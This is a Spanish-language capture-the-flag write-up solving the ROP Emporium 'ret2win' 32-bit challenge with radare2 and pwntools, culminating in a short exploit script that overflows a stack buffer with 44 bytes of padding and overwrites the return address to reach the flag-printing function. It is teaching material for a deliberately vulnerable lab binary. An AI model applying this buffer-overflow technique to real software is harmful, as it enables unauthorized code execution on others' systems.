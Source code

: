 ```yaml
---
layout: post
title: Ret2Win32 - RopEmporium
tags: [ctf, rev, ropemporium]
---
```


**Autor**: RopEmporium \\
**Challenge**: 1

![img](/imgs/write-ups/ropemporium/ret2win32/ret2win32.png#center)

## Introducción

Este desafío es algo diferente a las máquinas boot2root que suelo publicar. En este caso parto de un binario el cual hay que explotar, sobreescribiento la dirección de retorno (return address) para poder ejecutar un función que de otra forma no se podría.

En este desafío las herramientas principales que voy a usar son **Radare2** y **PwnTools**.

Desde el siguiente enlace de me descargo un zip con el binario y la bandera, **[ret2win](https://ropemporium.com/challenge/ret2win.html)**. En este writeup resuelvo la version **x86**.

## Información del binario

```
kali@kali:~/Desktop/ropemporium$ rabin2 -I ret2win32 
arch     x86
baddr    0x8048000
binsz    6206
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

Entre los datos a tener en cuenta vemos que **nx** está activado, por lo que el stack no es ejecutable. Esto ya lo sabiamos por que todos los desafios de **ropemporium** son así.

También compruebo que efectivamente su arquitectura es **x86**.

## Ejecución

Al ejecutar el binario me muestra un texto y luego me pide una entrada.

```
kali@kali:~/Desktop/ropemporium$ ./ret2win32  
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> LordP4
Thank you!

Exiting
```

Traducción.

```
Para mi primer truco, ¡intentaré meter 56 bytes de entrada de usuario en 32 bytes de buffer de pila!
¿Qué podría salir mal?
¿Me das tu opinión, por favor? Y no te preocupes por los bytes nulos, ¡estamos usando read()!
```

Con un bufferoverflow como este seguro que puedo sobreescribir la return address en el stack ;)

## Funciones

Abro el binario con radare2 para listar las funciones y echar un ojo como funciona.

```
kali@kali:~/Desktop/ropemporium$ r2 -d ret2win32    
glibc.fc_offset = 0x00148
[0xf7f48450]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Finding and parsing C++ vtables (avrr)
[x] Skipping type matching analysis in debugger mode (aaft)
[x] Propagate noreturn information (aanr)
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0xf7f48450]>
```

Con el comando **afl** listo las funciones. En este caso me interesan 3.

```
[0xf7f48450]> afl
[...]
0x080485ad    1 127          sym.pwnme
[...]
0x0804862c    1 41           sym.ret2win
[...]
0x08048546    1 103          main
[...]
```

Importante anotar la dirección en la que se encuentra **ret2win**.

### Main

![img](/imgs/write-ups/ropemporium/ret2win32/main.png#center)

**1)** Se puede observar que en la función **main**, únicamente se llama a **pwnme** y que **ret2win** no aparece por ningún lado.

**2)** Me anoto esa dirección de memoria porque será la que buscaré en el stack para sobreescribirla.

### Pwnme

![img](/imgs/write-ups/ropemporium/ret2win32/pwnme.png#center)

Esta función no tiene mucha complejidad.

En las marcas **1** y **2** se ve que, efectivamente como dice el binario, intenta meter 56 bites de entrada del usuario en 32 bites asignado a la variable.

### ret2win

![img](/imgs/write-ups/ropemporium/ret2win32/ret2win.png#center)

Esta función es el objetivo al que tenemos que llegar. Su único propósito es leer el contenido de **flag.txt**.

## Debug

Voy a ejecutar el binario y comprobar como se almacenan los datos en el stack.

Coloco un breakpoint tras la ejecución de la función **pwnme**.

```
[0xf7f48450]> db 0x08048590
[...]
|           0x0804858b      e81d000000     call sym.pwnme
│           0x08048590 b    83ec0c         sub esp, 0xc
│           0x08048593      68fd860408     push str._nExiting          ; 0x80486fd ; "\nExiting"
│           0x08048598      e833feffff     call sym.imp.puts           ; int puts(const char *s)
[...]
```

### Stack

Ejecuto el programa, introducto una cadena y la busco en el stack.

![img](/imgs/write-ups/ropemporium/ret2win32/stack.png#center)

En el número **1** de color azul, se pueden ver los 32 bites reservados para la variable y en el número **2** de color verde, se puede ver la dirección de retorno que es la que queremos sobreescribir (anotada anteriormente).

Entre las dos direcciones hay una diferencia de 44 bites.

## Explotación

Para realizar la explotación, creo un script en python en el que utilizaré **pwntools**.

exploit.py

```python
from pwn import *

# Iniciar el proceso
p = process("./ret2win32")

# Padding inicial de 44 bites.
payload = b"A"*44

'''
Ambas opciones para envíar la dirección son válidas
'''
payload += p32(0x0804862c) # Dirección de ret2win
#payload += b"\x2c\x86\x04\x08"

p.recvuntil(">")
p.sendline(payload)

p.interactive()
```

En este script lo primero que hago es iniciar el binario, a continuación creo el payload, formado por 44 bites como padding inicial y seguido de la dirección de memoria de la función **ret2win**.

Despues utilizo la función "sendline" para envíar el payload e "interactive()" para mostrar los resultados en la terminal.

## Solución

Al ejecutarlo, obtenemos la bandera.

```
kali@kali:~/Desktop/ropemporium$ python3 exploit.py
[+] Starting local process './ret2win32': pid 68961
/home/kali/Desktop/ropemporium/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(">")
[*] Switching to interactive mode
 Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Y con esto termina mi solución. :)
